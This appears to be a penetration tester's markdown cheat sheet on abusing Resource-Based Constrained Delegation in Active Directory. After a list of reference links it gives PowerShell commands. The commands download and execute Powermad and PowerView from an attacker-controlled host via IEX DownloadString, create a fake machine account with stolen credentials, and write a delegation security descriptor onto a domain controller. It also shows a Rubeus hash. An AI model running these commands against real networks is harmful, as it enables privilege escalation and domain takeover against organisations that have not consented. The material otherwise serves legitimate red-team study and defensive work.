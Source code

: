 # Resource-Based Constrained Delegation

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)




## RBCD from Windows

Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powerview4.ps1")
```

Check if `ms-DS-MachineAccountQuota` allows to create new machine accounts:

```
PS > $root = [ADSI]"LDAP://RootDSE"
PS > $root.rootDomainNamingContext
DC=megacorp,DC=local
PV3 > Get-DomainObject -Identity "DC=megacorp,DC=local" | select ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

Define credentials for the compromised account with the necessary DACL:

```
PS > $userWithDaclUsername = 'megacorp.local\snovvcrash'
PS > $userWithDaclPassword = ConvertTo-SecureString 'Qwe123!@#' -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential($userWithDaclUsername, $userWithDaclPassword)
```

Add new machine account and configure RBCD (i.e., set `msDS-AllowedToActOnBehalfOfOtherIdentity` property to value of the new machine account SID) on the vulnerable host (DC01):

```
Powermad > New-MachineAccount -MachineAccount fakemachine1337 -Password $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) -Verbose
PV3 > $computerSID = Get-DomainComputer -Identity fakemachine1337 -Properties ObjectSid -Verbose -Credential $cred | select -Expand ObjectSid
PS > $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($computerSID))"
PS > $SDBytes = New-Object byte[] ($SD.BinaryLength)
PS > $SD.GetBinaryForm($SDBytes, 0)
PV3 > Get-DomainComputer DC01.megacorp.local -Verbose -Credential $cred | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose -Credential $cred
PS > .\Rubeus.exe hash /domain:megacorp.local /user:fakemachine1337$ /password:Passw0rd!
FC525C9683E8FE067095BA2DDC971889
```
